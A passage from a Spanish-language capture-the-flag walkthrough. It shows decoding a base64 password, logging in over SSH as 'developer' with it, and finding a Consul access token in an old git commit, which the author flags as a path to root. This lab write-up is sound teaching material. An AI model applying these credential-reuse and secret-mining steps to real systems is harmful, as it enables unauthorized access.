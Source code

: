 Al decodificar la contraseña veremos esto.

```sh
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
```
Intentemos utilizar esta contraseña para conectarnos como el usuario "developer" por SSH.

```
$ ssh developer@10.10.11.183
developer@10.10.11.183's password: anEnglishManInNewYork027468

-bash-5.0$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

# Enumeración del sistema

Luego de estar un rato enumerando los distintos directorios de la máquina, en ```/opt``` hay una carpeta llamada```"my-app"``` la cual corresponde a un proyecto de GitHub, y tambien el usuario root esta corriendo ```"consul"```.

```
-bash-5.0$ ls /opt
consul  my-app
-bash-5.0$ cd /opt/my-app
-bash-5.0$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
```
Si listamos los commits de este proyecto veremos esto.

```
bash-5.0$ git log --oneline
33a53ef (HEAD -> main) tidy config script
c982db8 config script
8dce657 created project with django CLI
4b8597b .gitignore
```

Si analizamos el commit "c982db8", veremos que hay un token

```
bash-5.0$ git show c982db8
commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
new file mode 100755
index 0000000..35c08f6
--- /dev/null
+++ b/whackywidget/put-config-in-consul.sh
@@ -0,0 +1,4 @@
+# We use Consul for application config in production, this script will help set the correct values for the app
+# Export MYSQL_PASSWORD before running
+
+consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
```